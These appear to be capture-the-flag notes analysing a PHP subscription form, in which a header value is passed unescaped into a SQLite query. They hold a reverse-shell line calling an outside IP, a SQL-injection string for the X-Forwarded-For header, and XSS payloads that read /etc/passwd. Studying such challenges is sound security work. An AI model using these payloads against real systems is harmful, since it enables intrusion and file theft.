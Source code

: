 
**Day2**

**So, the email is filtered by a PHP builtin function/filter FILTER\_VALIDATE\_EMAIL**:

if\(empty\($email\) || \!filter\_var\($email, FILTER\_VALIDATE\_EMAIL\)\) \{
header\('Location: /?success=false\&msg=Please submit a valild email address\!'\);
exit;

**Looked this up, there is a little you can do here to bypass, but not a lot, if it goes straight into a commandline per se, you could do something like **\`bash \-i \>\& /dev/tcp/10\.10\.14\.26/4464 0\>\&1\`@example\.com

**But, this is not possible here, it is just data going into the database, but SQLI will probably be hard to do this way, not sure what else we can get from the database \(nothing looks like\), with sqlite/nosql its not likely to get code execution, etc\. 

Maybe we got it to execute some JS on the page, but lets not fight the email filter if we don't have to\!\!****There is an uncontrolled input being reflected to the page, IP address and email can be inserted directly into the DB the way its written, it does not look like a prepared statement etc**\.

**So, these are unfiltered, user controlled variables in the form of headers sent to the site:
**
X\_FORWARDED\_FOR
REMOTE\_ADDR
CLIENT\_IP

**The code gets the IP address directly from the headers:**

publicfunctiongetSubscriberIP\(\)\{
if\(array\_key\_exists\('HTTP\_X\_FORWARDED\_FOR', $\_SERVER\)\)\{
return$\_SERVER\["HTTP\_X\_FORWARDED\_FOR"\];
\}elseif\(array\_key\_exists\('REMOTE\_ADDR', $\_SERVER\)\) \{
return$\_SERVER\["REMOTE\_ADDR"\];
\}elseif\(array\_key\_exists\('HTTP\_CLIENT\_IP', $\_SERVER\)\) \{
return$\_SERVER\["HTTP\_CLIENT\_IP"\];
\}
return'';
\}

publicfunctionsubscribe\($email\)
\{
$ip\_address= $this\-\>getSubscriberIP\(\);


**This line of code inserts them:**
return$this\-\>db\-\>exec\("INSERTINTOsubscribers \(ip\_address, email\) VALUES\('$ip\_address', '$email'\)"\);

**So, potentially, this could bypass the email filter and at least do some XSS:**

1\.2\.3\.4','\<script\>alert\(1\);\</script\>'\)"\);#

**Could potentially run:**

return$this\-\>db\-\>exec\("INSERTINTOsubscribers \(ip\_address, email\) VALUES\('1\.2\.3\.4', '\<script\>alert\(1\);\</script\>'\)"\); #', '$email'\)"\);

This looks like it would insert 1\.2\.3\.4 for IP address, then the malicious XSS into the script\. 

**Let's try this\.**

**Set my burp request to have this in X\-Forwarded\-For:**1\.2\.3\.4','\<script\>alert\(1\);\</script\>'\)"\);#**

Hmm, its not reflected\.  Wrong about this one\!\!  Forgot, it does not show this output\.  No reflection that I can see so far\.

Looks like it just sends back a message in the next URL:
**GET /?success=true\&msg=Email%20subscribed%20successfully\! HTTP/1\.1**
**
**If it did work, potential payloads would be;**

\<script\>x=newXMLHttpRequest; x\.onload=function\(\)\{ document\.write\(this\.responseText\) \}; x\.open\("GET","file:///etc/passwd"\); x\.send\(\);\</script\>

\<img src="xasdasdasd"onerror="document\.write\('\<iframe src=file:///etc/passwd\>\</iframe\>'\)"/\>

\<script\>document\.write\('\<iframe src=file:///etc/passwd\>\</iframe\>'\);\</script\>

**Noticed something interesting in the logs when playing with this:
**
2022/05/15 16:57:54 \[error\] 9#9: \*32953 FastCGI sent in stderr: "PHP message: PHP Warning:  SQLite3::exec\(\): unrecognized token: \&quot;\&quot;\);#', 'ab@com\.com'\)\&quot; in /www/Database\.php on line 36" while reading response header from upstream, client: 172\.17\.0\.1, server: \_, request: "POST /subscribe HTTP/1\.1", upstream: "fastcgi://unix:/run/php\-fpm\.sock:", host: "localhost:1337", referrer: "[http://localhost:1337/"](#http://localhost:1337/")


